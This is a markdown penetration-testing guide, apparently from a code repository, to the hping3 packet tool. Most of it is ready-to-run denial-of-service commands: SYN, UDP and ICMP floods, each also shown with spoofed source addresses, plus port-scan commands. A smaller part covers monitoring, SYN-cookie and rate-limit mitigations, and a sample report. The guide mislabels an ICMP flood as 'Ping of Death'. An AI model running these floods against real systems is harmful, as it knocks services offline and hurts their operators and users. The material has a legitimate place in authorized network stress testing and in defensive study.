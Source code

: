 
# `hping3` Penetration Testing Guide  
*(Authorized Use Only)*  

## **1. Introduction**  
`hping3` is a network tool for crafting custom TCP/IP packets, useful for:  
- **Firewall Testing**  
- **Port Scanning**  
- **DoS/DDoS Simulation** (SYN/UDP/ICMP floods)  
- **Network Traffic Analysis**  



## **2. Basic Syntax**  

hping3 [OPTIONS] TARGET_IP

| **Option**  | **Description**                  | **Example**                     |
|-------------|----------------------------------|---------------------------------|
| `-S`        | SYN flag (TCP half-open)         | `hping3 -S 192.168.0.118 -p 80`|
| `-p PORT`   | Target port                      | `-p 443`                        |
| `--flood`   | Send packets as fast as possible | `--flood`                       |
| `--rand-source` | Spoof source IP (randomized) | `--rand-source`              |
| `-1`        | ICMP mode                        | `hping3 -1 192.168.0.118`       |
| `-2`        | UDP mode                         | `hping3 -2 192.168.0.118 -p 53` |

---

## **3. Common Use Cases**  

### **A. SYN Flood (TCP DoS)**  
**Command**:  

hping3 -S 192.168.0.118 -p 80 --flood

**With Spoofed IPs**:  

hping3 -S 192.168.0.118 -p 80 --flood --rand-source

**Purpose**:  
- Overwrites TCP connection queue.  
- Simulates a SYN flood attack.  

---

### **B. UDP Flood**  
**Command**:  

hping3 -2 192.168.0.118 -p 53 --flood

**With Spoofed IPs**:  

hping3 -2 192.168.0.118 -p 53 --flood --rand-source

**Purpose**:  
- Floods UDP ports (e.g., DNS on port 53).  
- Bypasses connection-based defenses.  

---

### **C. ICMP Flood (Ping of Death)**  
**Command**:  
```bash
hping3 -1 192.168.0.118 --flood
```  
**With Spoofed IPs**:  
```bash
hping3 -1 192.168.0.118 --flood --rand-source
```  
**Purpose**:  
- Overloads target with ICMP Echo Requests.  
- Tests ICMP rate-limiting.  

---

## **4. Advanced Options**  

### **A. Packet Customization**  
| **Option**  | **Description**                  | **Example**                     |
|-------------|----------------------------------|---------------------------------|
| `-d SIZE`   | Packet size (bytes)              | `-d 1000`                       |
| `-c COUNT`  | Number of packets to send        | `-c 1000`                       |
| `-w WIN`    | TCP window size                  | `-w 64`                         |
| `-t TTL`    | Time-to-Live                     | `-t 128`                        |

**Example**:  
```bash
hping3 -S 192.168.0.118 -p 80 -d 1200 -c 5000
```

---

### **B. Port Scanning**  
**Stealth Scan**:  
```bash
hping3 -S 192.168.0.118 -p ++1
```  
- Scans ports sequentially (e.g., 1, 2, 3...).  

**Range Scan**:  
```bash
hping3 -S 192.168.0.118 -p 80-100
```  

---

## **5. Monitoring & Analysis**  

### **On Attacker Side**  
```bash
tcpdump -i eth0 'host 192.168.0.118' -w hping3_capture.pcap
```  
- Captures traffic for analysis in Wireshark.  

### **On Target Side**  
```bash
netstat -tuln | grep "80"  # Check active connections
htop                       # Monitor CPU/RAM
```

---

## **6. Mitigation Testing**  
Test defenses against `hping3` attacks:  
- **SYN Cookies**:  
  ```bash
  sysctl -w net.ipv4.tcp_syncookies=1
  ```  
- **Rate Limiting**:  
  ```bash
  iptables -A INPUT -p tcp --syn -m limit --limit 1/s -j ACCEPT
  ```  

---

## **7. Legal & Reporting**  
### **Sample Report**  
```markdown
# hping3 Test Report  
**Target**: `192.168.0.118`  
**Test Type**: SYN Flood (`-S --flood`)  
**Impact**:  
- 10,000 PPS caused 90% CPU usage.  
- Mitigation: Enabled SYN cookies (100% recovery).  
```

---

## **8. Post-Test Actions**  
1. **Stop Attacks**: `Ctrl+C` in terminal.  
2. **Verify Restoration**:  
   ```bash
   ping 192.168.0.118  # Check if target responds
   ```  
3. **Document Findings**: Share with stakeholders.  

---

⚠️ **Warning**: Always obtain **explicit authorization** before testing.  
```

---

### **How to Use This Guide**  
1. Save as `hping3_guide.md`.  
2. Replace `192.168.0.118` with your target IP.  
3. Use in controlled environments only.  
